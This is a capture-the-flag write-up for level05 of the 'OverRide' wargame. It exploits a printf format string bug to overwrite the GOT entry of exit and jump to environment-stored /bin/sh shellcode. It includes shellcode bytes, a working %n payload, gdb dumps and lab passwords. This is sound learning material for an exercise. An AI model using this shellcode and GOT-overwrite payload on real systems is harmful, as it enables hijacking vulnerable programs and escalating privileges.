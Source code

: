 # Format string attack

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level05
           ____                  ____  _     __   
          / __ \_   _____  _____/ __ \(_)___/ /__ 
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/ 
                                          
                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level05@192.168.56.101's password: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```
Only one `main()` function is defined in the executable.
It gets users input, decapitalize and print, following by exit with status 0.

Even though the stack is executable, at the first glance shellcode can be placed in the buffer. But the redirection of the flow to the stack will not work, as the program modify user input.
```shell
level05@OverRide:~$ readelf -a level05 | grep STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
```
```
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```
```
Breakpoint 1, 0x0804847a in main ()
gdb-peda$ x/25wx 0xffffd698
0xffffd698:     0x080497e0      0x080497e2      0x90909090      0x90909090
0xffffd6a8:     0x90909090      0x90909090   >>>0x6850c031<<<   0x68732f2f
0xffffd6b8:     0x69622f68   >>>0x50e3896e<<  >>0xb0e18953<<<   0x2580cd0b
0xffffd6c8:     0x39383435      0x31257837      0x256e2430      0x39353031
0xffffd6d8:     0x31257831      0x906e2431      0x90909090      0x90909090
0xffffd6e8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6f8:     0x00909090
gdb-peda$ x/25wx 0xffffd698
gdb-peda$ continue
Breakpoint 2, 0x08048513 in main ()
gdb-peda$ x/25wx 0xffffd698
0xffffd698:     0x080497e0      0x080497e2      0x90909090      0x90909090
0xffffd6a8:     0x90909090      0x90909090   >>>0x6870c031<<<   0x68732f2f
0xffffd6b8:     0x69622f68   >>>0x70e3896e<<  >>0xb0e18973<<<   0x2580cd0b
0xffffd6c8:     0x39383435      0x31257837      0x256e2430      0x39353031
0xffffd6d8:     0x31257831      0x906e2431      0x90909090      0x90909090
0xffffd6e8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6f8:     0x00909090
```

The issue is that `printf()` is missuded which expose the application to the Format String Attack.
FSA allows to apply overwrite of GOT table where address of `exit()` is stored.

Determine addresses of `system()` and `"/bin/sh"` as well as where `exit()` is stored.
```
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
gdb-peda$
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
gdb-peda$
gdb-peda$ x/i main+207
  0x8048513 <main+207>: call 0x8048370 <exit@plt>
gdb-peda$ disassemble 0x8048370
Dump of assembler code for function exit@plt:
  0x08048370 <+0>:  jmp  DWORD PTR ds:0x80497e0
  0x08048376 <+6>:  push 0x18
  0x0804837b <+11>: jmp  0x8048330
End of assembler dump.
gdb-peda$ x 0x80497e0
  0x80497e0 <exit@got.plt>: 0x08048376
```

Input recognizable characters to determine how far away input is layed on the stack.

> Note that due to XOR operation upercase character will be inverted, A(41) will be a(61).

```shell
level05@OverRide:~$ python -c 'print("AAAABBBB" + "%x "*11)' | ./level05
aaaabbbb00000064 f7fcfac0 f7ec3add ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 62626262
```
Input string starts with offset 10.
```
        [1]      [2]      [3]      [4]      [5]      [6]      [7]      [8]      [9]      [10]     [11]
aaaabbbb00000064 f7fcfac0 f7ec3add ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 62626262
```

Export [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) into environment variables and  retrieve the address where it is lay.
Devide the address per byte  and calculate for each number of characters that need to be printen by `%x` and written by `%n`.
```
0xffffdedb
0xdb -> 0x0db-16 = 203
0xde -> 0x1de-16-203 = 259
0xff -> 0x1ff-16-259-203 = 33
0xff -> 0x2ff-16-259-203-33 = 256
```

# Exploit
```shell
level05@OverRide:~$ export SHELL_CODE=$(python -c "print '\x90'*100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
level05@OverRide:~$ ./getenv SHELL_CODE
SHELL_CODE at 0xffffdedb
level05@OverRide:~$ (python -c 'import struct; print(struct.pack("I", 0x080497e0) + struct.pack("I", 0x080497e1) + struct.pack("I", 0x080497e2) + struct.pack("I", 0x080497e3) + "%203x%10$n" + "%259x%11$n" + "%33x%12$n" + "%256x%13$n")'; echo 'id; cat /home/users/$(whoami)/.pass') | ./level05
                                                                                                                                                                                                         64                                                                                                                                                                                                                                                           f7fcfac0                         f7ec3af9                                                                                                                                                                                                                                                        ffffd65f
uid=1005(level05) gid=1005(level05) euid=1006(level06) egid=100(users) groups=1006(level06),100(users),1005(level05)
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

# Addendum
```c
#include <stdio.h>
#include <stdlib.h>

int main(int ac, char *av[])
{
  printf("%s at %p\n", av[1], getenv(av[1]));
}
```
